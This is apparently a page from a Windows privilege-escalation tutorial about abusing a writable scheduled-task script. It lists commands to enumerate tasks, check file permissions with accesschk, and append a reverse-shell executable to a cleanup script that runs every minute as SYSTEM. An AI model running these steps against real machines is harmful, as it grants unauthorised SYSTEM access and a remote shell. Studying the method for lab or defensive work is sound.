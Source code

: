 # Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically \(e.g. every 5 mins\) or when triggered by some event \(e.g. a user logon\). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```text
schtasks /query /fo LIST /v
```

In PowerShell:

```text
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

in this example we find a powershell script that will clean up our old dev logs every minute.

![](../../../../.gitbook/assets/image%20%28153%29.png)

This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```text
accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

![](../../../../.gitbook/assets/image%20%28152%29.png)

It appears we have the ability to write to this file

Backup the script:

```text
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

start a listener on your side, create a reverse shell and Use echo to append a call to our reverse shell executable to the end of the script:

```text
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the scheduled task to run \(it should run every minute\) to complete the exploit.

![](../../../../.gitbook/assets/image%20%28149%29.png)







